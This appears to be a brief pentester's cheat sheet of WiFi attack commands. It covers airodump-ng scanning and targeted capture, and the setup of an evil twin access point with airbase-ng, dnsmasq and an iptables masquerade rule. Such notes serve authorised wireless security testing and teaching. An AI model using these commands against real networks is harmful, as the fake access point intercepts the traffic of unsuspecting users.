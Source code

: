 ## WiFi Attack Techniques

### Initial Reconnaissance
* Basic WiFi scanning
        * `airodump-ng wlan0mon`
* Target-specific monitoring
        * `airodump-ng -w capture -c [channel] --bssid [BSSID] wlan0mon`
* Client detection
        * `airodump-ng --manufacturer --uptime wlan0mon`

### Evil Twin Attack Setup
* Create fake AP
        * `airbase-ng -e "[SSID]" -c [channel] wlan0mon`
* Configure DHCP
        * `dnsmasq -C dnsmasq.conf -d`
* Route traffic
        * `iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE`